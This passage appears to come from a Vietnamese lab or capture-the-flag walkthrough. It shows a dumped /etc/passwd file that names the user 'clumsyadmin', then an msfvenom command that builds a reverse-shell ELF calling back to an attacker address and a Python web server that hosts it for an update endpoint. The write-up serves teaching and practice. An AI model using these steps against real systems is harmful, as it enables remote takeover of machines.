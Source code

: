 ```
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
clumsyadmin:x:1000:1000::/home/clumsyadmin:/bin/sh

            </div>
        </div>
    </body>
</html>
```

Tuyệt! Ở cuối file, có thể thấy người dùng `clumsyadmin`. Hãy nhớ rằng cần một tên người dùng hợp lệ để tương tác với endpoint `/update`. Vì đây có vẻ là người dùng duy nhất trên hệ thống ngoài root, có thể thử cung cấp nó cho endpoint.

### Remote Code Execution

Thấy trong tài liệu API rằng nó mong đợi một tệp thực thi Linux ELF để áp dụng "update". Bắt đầu bằng cách tạo payload reverse shell.

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.118.5 LPORT=4444 -f elf -o shell
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: shell
```

Có thể host nó qua HTTP với một máy chủ web python cơ bản.

```
┌──(kali㉿kali)-[~]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
